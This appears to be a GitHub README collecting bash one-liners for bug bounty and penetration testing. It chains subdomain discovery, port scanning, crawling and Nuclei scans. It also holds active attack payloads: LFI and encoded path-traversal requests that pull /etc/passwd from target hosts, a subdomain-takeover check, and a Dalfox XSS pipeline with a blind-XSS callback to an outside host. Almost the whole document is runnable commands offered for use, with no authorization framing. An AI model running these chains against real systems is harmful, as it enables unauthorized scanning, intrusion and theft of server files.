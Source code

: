 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.
```

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
Find high-value subdomains using keyword patterns.
```

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
Query BufferOver's DNS database for historical records.
```

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
Extract subdomains from SSL certificates.
```

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
Detect dangling DNS records for potential takeover.
```

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
Automated LFI payload testing with parallel requests.
```

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
Test for LFI bypasses using directory traversal.
```

## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
Full-chain XSS discovery pipeline with active probing.
```

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
Find IPs associated with target's SSL certificates.
```

## Tools Used
- Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
- ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
- dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
- Naabu	Port scanner	https://github.com/projectdiscovery/naabu
- HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
- Katana	Crawler	https://github.com/projectdiscovery/katana
- Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
- Gau	URL collector	https://github.com/lc/gau
- Dalfox	XSS scanner	https://github.com/hahwul/dalfox
- Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

- https://x.com/TheMsterDoctor1/status/1905471835128373665
- https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file
